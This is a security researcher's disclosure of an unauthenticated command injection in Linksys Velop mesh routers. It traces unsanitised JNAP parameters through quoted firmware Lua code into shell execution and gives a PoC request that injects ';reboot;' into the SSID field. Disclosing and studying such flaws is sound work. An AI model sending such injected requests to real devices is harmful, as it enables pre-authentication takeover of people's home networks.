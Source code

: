 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [Linksys Velop Command Injection]
---
```


### Affected Software
The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.

There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
No CVE at the moment

There is a command injection vulnerability through JNAP action of http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure , the vulneraibility may lead to RCE without authentication
JNAP is a web services protocol for Cisco, similar as HNAP. 

There are many X-JNAP-Actions can be made through HTTP request. One of the action is http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure, for example, the http server can handle the following request without any authentication.
~~~http
POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"ssid","configApPassphrase":"wifipass","srpLogin":"user","srpPassword":"password"}
~~~

Through the action name, this request seems to be used to configure the smart wifi so it needn't any authentication.The first .lua file which processes this request is smartconnect_server.lua in /JNAP/modules/:
~~~lua
local function SmartConnectConfigure(ctx, input)
        local smc = require('smartconnect')
        local sc = ctx:sysctx()
        local error, output = smc.smartConnectConfigure(sc, input)
        return error or 'OK'
    end
~~~

Input parameters will be passed to smartConnectConfigure function in smartconnect.lua in /usr/local/lib/lua/5.1/, when we looked into this function and found there is no check of the input parameters:

~~~lua
function _M.smartConnectConfigure(sc, input)
        sc:writelock()
        local hdk = require('libhdklua')
        local smart_mode = sc:get_smartmode()
        if smart_mode == 2 then
            -- If a device is Master node.
            local error, output = bluetooth.btSmartConnectConfigure(input.configApSsid, input.configApPassphrase, input.srpLogin, input.srpPassword)
            if not error then
                return nil
            else
                return error
            end
        elseif smart_mode == 0 then
            -- If a device is Unconfigured.
            sc:set_smartconnect_configured_ssid(input.configApSsid);
            sc:set_smartconnect_configured_passphrase(input.configApPassphrase);
            sc:set_smartconnect_auth_login(input.srpLogin);
            sc:set_smartconnect_auth_pass(input.srpPassword);
            sc:set_smartmode(1)
            sc:set_bridge_mode_wo_reboot(1)
            sc:set_wifibridge_mode_wo_event(2)
            -- sc:setevent(_M.SMART_CONNECT_SETUP_STATUS, 'DONE')
            -- sc:setevent(_M.FORWARDING_RESTART, '')
            os.execute('smcdb_cli create')
            os.execute('smcdb_cli update -s '..input.configApSsid..' -p '..input.configApPassphrase..' -l '..input.srpLogin..' -a '..input.srpPassword)
            os.execute('sysevent set smart_connect::setup_status AUTH')
            os.execute('sysevent set forwarding-restart')
            return nil
        else
            return 'ErrorBTUnsupportedMode'
        end
    end
~~~

Then btSmartConnectConfigure will be called:

~~~lua
function _M.btSmartConnectConfigure(configap, configpass, srplogin, srppass)
        local opt = '-f '..'-A '..configap..'-P '..configpass..'-L '..srplogin..'-R '..srppass
        local error, output = _M.btRunCentralCommandSync(opt)
        if error then
            return '_ErrorUnexpected'
        end
        return nil, output
    end

    function _M.btRunCentralCommandSync(option)
        assert(option)
        local output = {}
        local table
        local jsonData
        local json = require('libhdkjsonlua')
        local file = io.(_M.RUN_CENTRAL_CMD_SYNC:format(option))
        if file then
            jsonData = file:read('*a')
            file:close()
            -- Parsing result
            table = json.parse(jsonData)
            if not table then
                platform.logMessage(platform.LOG_ERROR, ('Failed parsing JSON data\n'))
                return 'error_get_result_fail'
            end
            if table.result == 'error_bt' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_jnap_req_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_not_connected' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTNotConnected'
            end
            if table.result == 'error_conn_lost' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTConnectionLost'
            end
            if table.result == 'error_notify_timeout' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTPeripheralNotRespond'
            end
            if table.result == 'error_command_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommandFailed'
            end
            if table.result == 'error_notify_enable_fail'
                or table.result == 'error_gatt_read_fail'
                or table.result == 'error_gatt_write_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommunicationFailed'
            end
           output = table
        end
        return nil, output
    end
~~~

RUN_CENTRAL_CMD_SYNC is defined at the top of bluetooth.lua

    _M.RUN_CENTRAL_CMD_SYNC = '/usr/bin/btsetup_central %s'

So, there are four parameters passed to the function btSmartConnectConfigure: configApSsid,configApPassphrase,srpLogin and srpPassword. In the btRunCentralCommandSync function,  there is a call to /usr/bin/btsetup_central with the four parameters given. There is not any check of the four parameters and cause a command injection problem. Since this request will be processed without authentication, an attacker can get RCE with preauth.

#### PoC
The following PoC will cause a reboot of the node.
~~~http
    POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"testssid;reboot;","configApPassphrase":"testwifipass","srpLogin":"testlogin","srpPassword":"testpass"}
~~~

### Timeline

2018-03-04: Discovered

2019-02-05: Reported, but the vendor has fixed
